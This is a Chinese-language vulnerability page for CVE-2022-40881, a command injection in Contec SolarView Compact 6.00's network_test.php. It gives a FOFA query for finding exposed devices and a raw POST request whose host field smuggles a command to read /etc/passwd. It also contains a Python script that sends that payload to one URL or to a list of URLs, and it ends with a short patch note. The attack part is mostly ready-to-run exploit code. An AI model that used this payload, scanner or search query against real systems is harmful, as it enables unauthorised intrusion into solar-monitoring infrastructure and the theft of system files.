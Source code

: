 # SolarView Compact 命令注入漏洞 CVE-2022-40881

## 漏洞描述

Contec SolarView Compact是日本Contec公司的一个应用系统。提供光伏发电测量系统。Contec SolarView Compact 6.00版本存在安全漏洞，攻击者利用该漏洞可以通过 network_test.php 的命令注入攻击。

## 漏洞影响

```
SolarView Compact 6.00
```

## FOFA

```
body="SolarView Compact" && title=="Top"
```

## 漏洞复现

发送数据包：

```
POST /cgi-bin/network_test.php HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 44

host=%0acat${IFS}/etc/passwd%0a&command=ping
```

## 漏洞POC

```python
import sys
import requests
import argparse

def poc_scan(url):
    try:
        url = url + "/network_test.php"
        response = requests.post(url,data = "host=%0acat${IFS}/etc/passwd%0a&command=ping",timeout=2)
        if response.status_code == 200:
            print(f"\033[92m[+] {url} is vulnerable!\033[0m")
        else:
            print(f"\033[31m[-] {url} is not vulnerable!\033[0m")
    except:
        pass


def open_file(filename):
    with open(filename, 'r', encoding='utf-8') as f:
        filecontent = f.read()
    return filecontent

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url")
    parser.add_argument("-f", "--file")
    args = parser.parse_args()
    url = args.url
    filename = args.file

    if sys.argv[1] == '-u':
        poc_scan(url)
    else:
        filecontent = open_file(filename)
        filecontent = filecontent.split("\n")
        for i in filecontent:
            poc_scan(i)
```

## 修复建议

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://www.contec.com/products-services/environmental-monitoring/solarview/

